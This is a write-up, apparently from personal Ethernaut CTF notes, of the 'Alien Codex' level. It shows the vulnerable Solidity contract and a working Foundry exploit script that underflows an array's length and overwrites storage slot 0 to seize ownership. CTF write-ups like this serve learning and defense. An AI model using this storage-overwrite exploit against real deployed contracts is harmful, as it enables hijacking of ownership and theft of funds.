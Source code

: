```yaml
---
title: "Alien Codex"
date: "2024-02-25T10:35:00.000Z"
lastmod: "2024-02-25T16:30:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
weight: 20
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/19"
next: "Denial-edd8839ce63a4a2194adfd2905ad4940"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "d14fa389-394f-4031-b7c2-ffcdeeebeb56"
  created_time: "2024-02-25T10:35:00.000Z"
  last_edited_time: "2024-02-25T16:30:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 20
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/19"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Denial-edd8839ce63a4a2194adfd2905ad4940"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Denial-edd8839ce63a4a2194adfd2905ad4940"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Alien Codex"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Alien Codex"
          href: null
  url: "https://www.notion.so/Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
  public_url: null
UPDATE_TIME: "2024-02-25T16:30:58.150Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


You've uncovered an Alien contract. Claim ownership to complete the level.


Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface AlienCodex {
  function contact() external returns(bool);
  function codex() external returns(bytes32[] memory);
  function makeContact() external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
  function owner() external returns(address);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address pubKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_19");

        vm.startBroadcast(deployerPrivateKey);

        AlienCodex codex = AlienCodex(addr);

        // codex array at slot 1 => first elt in the array at slot keccak256(1)
        uint eltSlot = uint(keccak256(abi.encode(1)));

        // owner address is stored on the first 20 bytes of slot 0
        uint distanceFromSlot0 = type(uint).max - eltSlot;

        codex.makeContact();

        // length underflow; now codex is of length type(uint).max
        // which allows us to reach every possible slot of the contract
        codex.retract();

        // write attacker's address at slot 0
        codex.revise(distanceFromSlot0 + 1, bytes32(abi.encode(pubKey)));

        console.logAddress(codex.owner());

        vm.stopBroadcast();

    }
}
```


This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.


Additionally, it exploits the arithmetic underflow of array length, 
by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.


Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)

